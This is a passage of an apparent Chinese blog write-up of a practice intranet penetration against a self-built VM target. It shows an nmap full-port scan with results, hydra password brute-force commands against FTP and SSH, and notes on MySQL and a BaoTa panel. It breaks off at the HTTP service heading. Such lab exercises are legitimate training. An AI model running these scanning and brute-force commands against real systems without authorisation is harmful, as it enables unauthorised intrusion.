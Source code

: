 ## 已知信息和目标

- `IP：192.168.43.43` （靶机是自己虚拟机里面搭建的，咱们假设他是一个公网IP熬！）

- 对其进行一个内网渗透，获取FLAG

## 0x1拿下Target1

```
┌──(root💀kali)-[~]
└─# nmap -sS -p 1-65535 192.168.43.43
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-23 18:47 CST
Nmap scan report for 192.168.43.43
Host is up (0.00094s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
888/tcp  open  accessbuilder
3306/tcp open  mysql
8888/tcp open  sun-answerbook
MAC Address: 00:0C:29:2B:4A:A4 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
```

### 对FTP进行爆破

`hydra -vV -l root -P /tools/dict/00xFuzzDicts\(全\)/passwordDict/top6000.txt 192.168.43.43 ftp    `

![image-20210823192913771](https://husins.oss-cn-beijing.aliyuncs.com/image-20210823192913771.png)

没爆破出来

### 对SSH进行爆破

`hydra -vV -l root -P /tools/dict/00xFuzzDicts\(全\)/passwordDict/top6000.txt 192.168.43.43 ssh    `

还是没爆破出来，弱密码不在爱我

### mysql

禁止远程连接，玩个屁

### 8888

![image-20210823195253131](https://husins.oss-cn-beijing.aliyuncs.com/image-20210823195253131.png)

开的是宝塔，找不到他随机数的地址，放一放吧

### Http服务
